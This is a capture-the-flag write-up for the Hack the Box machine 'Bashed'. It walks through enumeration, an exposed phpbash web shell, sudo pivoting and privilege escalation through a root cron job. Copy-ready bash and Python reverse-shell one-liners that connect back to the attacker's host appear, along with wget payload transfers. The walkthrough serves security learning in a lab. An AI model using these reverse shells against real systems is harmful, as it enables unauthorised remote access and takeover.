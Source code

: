 ```yaml
---
title: Bashed
tags: linux
description: Write-up for Hack the Box - Bashed
---
```


![image](assets/79369383-d8b97280-7f1e-11ea-95e8-354f14929c25.png)

## Overview

Bashed is an Ubuntu box running Apache hosting a custom website/blog. The developer talks about creating something called phpbash. Using gobuster I discovered a number of folders including a site that hosted a web-based shell running as www-data. Using the shell I determined that a cron job was running anything in the scripts folder as root which was exploited to get a root shell.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* Apache 2.4.18

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.68 -oN /mnt/data/boxes/bashed/_full_tcp_nmap.txt
```

* 80/tcp - http

**URL/File Discovery**

```
gobuster dir -w http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 25
```

![image](assets/79475960-660bce00-7fd6-11ea-82ad-3f296cd9bf12.png)

## Steps (User)

Browsing to http://10.10.10.68 showed a blog entry talking about phpbash which appeared to be a web shell that was created for pentesting. There were no other pages or interesting information in the source code.

Reviewing the gobuster output showed a few interesting results but nothing useful besides /dev. Browsing to /dev showed a directory listing with one of the files being phpbash.php.

![image](assets/79476916-943ddd80-7fd7-11ea-837c-f43669e1abc9.png)

Browsing to http://10.10.10.68/dev/phpbash.php brought me to a page hosting a web-based user shell.

![image](assets/79477267-07475400-7fd8-11ea-9d43-f63bd20e4d3d.png)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that this account can run any command as user "scriptmanager".

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy. 

![image](assets/79497293-6b2c4580-7ff5-11ea-9a4c-ccd7c7a6179b.png)

Attempting to switch to scriptmanager doesn't work on the web shell so to get around this I used netcat to create a reverse shell. The box was running the openbsd version of netcat so there was no -e option, __bash -i >& /dev/tcp/10.10.14.13/4200 0>&1__ and a few other variations of this didn't work. 

I ran 'which python' to confirm that python was installed on the box and grabbed a copy of the python reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

I started a netcat listener (nc -l 4200), updated the command with my box's IP/port, and ran it in the web shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4200));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](assets/86192957-bea03100-bb18-11ea-8010-9be1166be8b6.png)

Now that I had a proper shell I was able to run the command below which executed a bash shell under the context of the scriptmanager user.

```
sudo -u scriptmanager /bin/bash
```

![image](assets/79480129-b2a5d800-7fdb-11ea-918d-b78590dee785.png)

## Steps (root/system)

As I was looking around on the filesystem I noticed an unusual folder /scripts. In this folder there was a file owned by root that, judging by the timestamp (ls -la), was being updated frequently.  I ran pspy to see if there were any automated tasks running. 

> [pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions.

I copied pspy32 to my working directory and fired up a python http server so I could transfer the file to the target box. 

```
local: cp ~/tools/pspy/pspy32 .
local: python3 -m http.server 80
```

I then used wget to copy the file to the target.

```
target: wget http://10.10.14.32/pspy32
```

pspy shows that the command that is being run 

```
/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

![image](assets/79482678-24cbec00-7fdf-11ea-8bb5-54d3fae6e8c0.png)

I updated the IP/port in the python code used earlier and started a netcat listener on the matching port (nc -lvnp 4201).

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4201)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Using the python http server again, I copied the code to a new file and copied it over to the target box.

```
wget http://10.10.14.32/rshell.py /scripts/rshell.py
chmod +x /scripts/rshell.py
```

Once the script was executed I received a callback on my netcat listener and received a shell as root.

![image](assets/79483164-e420a280-7fdf-11ea-950a-25dc9b8cee38.png)
